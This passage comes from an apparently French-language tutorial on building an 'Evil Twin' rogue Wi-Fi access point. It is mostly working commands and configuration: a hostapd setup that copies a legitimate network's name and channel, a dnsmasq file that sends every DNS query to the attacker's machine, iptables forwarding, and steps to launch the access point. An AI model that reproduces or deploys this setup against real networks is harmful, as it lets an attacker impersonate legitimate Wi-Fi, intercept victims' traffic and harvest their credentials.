 ```bash
wpa_passphrase=MotDePasseFaux123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP

# EXPLICATION CONFIG :
# ssid = Nom réseau (copier réseau légitime)
# channel = Canal (idéal = même que légitime)
# wpa_passphrase = Mot de passe bidon
# driver=nl80211 = Driver WiFi moderne
```

#### **Configuration DHCP avec dnsmasq**
```bash
# ÉTAPE 2 : Configurer serveur DHCP/DNS
sudo nano /etc/dnsmasq_evil.conf

# CONTENU :
interface=wlan1
dhcp-range=192.168.1.100,192.168.1.200,255.255.255.0,12h
dhcp-option=3,192.168.1.1
dhcp-option=6,192.168.1.1
server=8.8.8.8
log-queries
log-dhcp
address=/#/192.168.1.1

# EXPLICATION :
# dhcp-range = IPs attribuées aux clients
# dhcp-option=3 = Gateway (notre machine)
# dhcp-option=6 = DNS server (notre machine)  
# address=/#/192.168.1.1 = Tout DNS → notre IP
```

#### **Lancement Evil Twin**
```bash
# ÉTAPE 3 : Configuration interface
sudo ifconfig wlan1 192.168.1.1 netmask 255.255.255.0

# ÉTAPE 4 : Routage IP (partage connexion)
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

# ÉTAPE 5 : Démarrer services
sudo hostapd /etc/hostapd/evil_twin.conf &
sudo dnsmasq -C /etc/dnsmasq_evil.conf -d &

# ÉTAPE 6 : Vérifier AP actif
iwconfig wlan1
# Mode:Master = Point d'accès actif
```
